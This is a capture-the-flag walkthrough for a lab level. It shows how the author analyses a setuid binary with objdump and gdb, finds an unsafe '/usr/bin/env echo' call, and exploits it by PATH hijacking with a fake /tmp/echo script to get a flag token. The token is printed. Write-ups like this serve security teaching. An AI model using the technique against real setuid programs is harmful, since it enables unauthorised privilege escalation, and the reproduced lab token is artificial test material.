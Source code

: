 # Level03

- We spawn with a `level03` file in root repository
- No extension so I try to execute it and it prints 'Exploit me'
- Then I try to *cat* the file but its unreadable
- Using 'file'
	> `level03: setuid setgid ELF 32-bit LSB executable`
- I still wanted to get a good look at the file so I used:
	> `objdump -M Intel -d level03`
	> The -M Intel to get a more understandable asm for me
- Code was still kinda bad so I did a little script to make it cleaner
	> `sh cutlines.sh`
- We can see many calls but one of them is a system one
- So when we look into it on `gdb`
	> `0x80485e0:       "/usr/bin/env echo Exploit me"`
- It seems like `echo` is vulnerable to manipulation since it's called using `/usr/bin/env` which makes the computer use the first binary found in `PATH`
- So we should be able to create a script called echo to get the flag for us !
	> `echo 'getflag' > /tmp/echo`
	> `export PATH=/tmp:$PATH`
	> `./level03`
- DOESN'T WORK ! WHY ? (Well I forgot a little something)
	> `chmod +x /tmp/echo`
	> `./level03`
	> `Check flag.Here is your token : qi0maab88jeaj46qoumi7maus`
